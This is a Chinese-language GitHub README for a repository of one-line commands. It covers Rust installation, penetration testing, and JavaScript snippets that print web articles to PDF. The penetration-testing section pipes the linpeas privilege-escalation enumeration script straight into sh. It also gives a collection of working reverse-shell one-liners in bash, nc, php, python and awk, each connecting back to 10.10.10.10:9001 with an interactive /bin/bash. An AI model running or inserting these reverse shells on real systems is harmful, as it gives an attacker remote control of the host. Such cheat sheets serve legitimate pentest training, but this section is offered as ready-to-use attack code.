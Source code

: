 # Oneliner
---
这是一个 包含了 只需要一行 instruction sequence 即可完成目标的 仓库.

将每一条记录称为 liner

这个仓库 涵盖了很多方面 如下载 安装 POC验证 EXP利用 等.

仓库遵循 content first 原则.

由于项目的特殊性, 参加项目请使用issue 来提供您的 liner

格式要求
````
## category <!-- 分类, 也是liner的 头部 --> <!-- 由管理员 识别并合并 -->
### title
> ***<date YY-mm-dd>: <author|mail>***
[> **<description>**] <!-- 描述信息 -->
```lang <!-- 该部分可有多个 -->
instruction
```
--- <!-- 当前liner的 分割线 也是尾部 -->
````
## 目录
* [Rust](#rust)
  * [Linux安装Rust环境](#linux安装rust环境)
* [渗透测试](#渗透测试)
  * [Linpeas.sh枚举提权信息](#linpeassh枚举提权信息)
  * [反弹shell合集](#反弹shell合集)
* [xxx2pdf](#xxx2pdf)
  * [freebuf2pdf](#freebuf2pdf)
  * [csdn2pdf](#csdn2pdf)
  * [wechat2pdf](#wechat2pdf)

<!-- 列表头 -->
## Rust
### Linux安装Rust环境
> ***2024-6-25: fb0sh***
```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```
> **(中国区环境)**
```bash
export RUSTUP_DIST_SERVER="https://rsproxy.cn";export RUSTUP_UPDATE_ROOT="https://rsproxy.cn/rustup";curl --proto '=https' --tlsv1.2 -sSf https://rsproxy.cn/rustup-init.sh | sh
```
---


## 渗透测试
### Linpeas.sh枚举提权信息
> ***2024-6-25: fb0sh***
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
> **python2**
```bash
python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```
> **python3**
```bash
python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```
--- 

### 反弹shell合集
> ***2024-6-25: fb0sh***

> **bash**
```bash
/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1
```
> **nc**
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```
```bash
nc 10.10.10.10 9001 -e /bin/bash
```
> **php**
```php
php -r '$sock=fsockopen("10.10.10.10",9001);popen("/bin/bash <&3 >&3 2>&3", "r");'
```
> **python**
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
```python3
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.10.10",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```
> **awk**
```bash
awk 'BEGIN {s = "/inet/tcp/0/10.10.10.10/9001"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
--- 

### xxx2pdf
### freebuf2pdf
> ***2024-6-28: fb0sh***
```js
["articles-layout-header ant-layout-header", "page-header", "ant-layout-footer","floating-view", "aside-left", "aside-right", "remix-module","introduce"].forEach(c => document.getElementsByClassName(c)[0].remove());document.getElementsByClassName("main")[0].setAttribute("style","width:100%");window.print();
```
---
### csdn2pdf
> ***2024-6-28: fb0sh***
```js
["toolbarBox", "rightAside", "pcCommentBox", "recommendNps", "toolBarBox"].forEach(i => document.getElementById(i).remove());["blog_container_aside", "recommend-box", "blog-footer-bottom", "csdn-side-toolbar"].forEach(c => document.getElementsByClassName(c)[0].remove());document.querySelectorAll("main")[0].setAttribute("style","width:95");window.print();
```
---
### wechat2pdf
> ***2024-6-28: fb0sh***
> **也可直接使用edge快捷键Ctrl+P**
```js
window.print();
```
---
<!-- 列表尾 -->
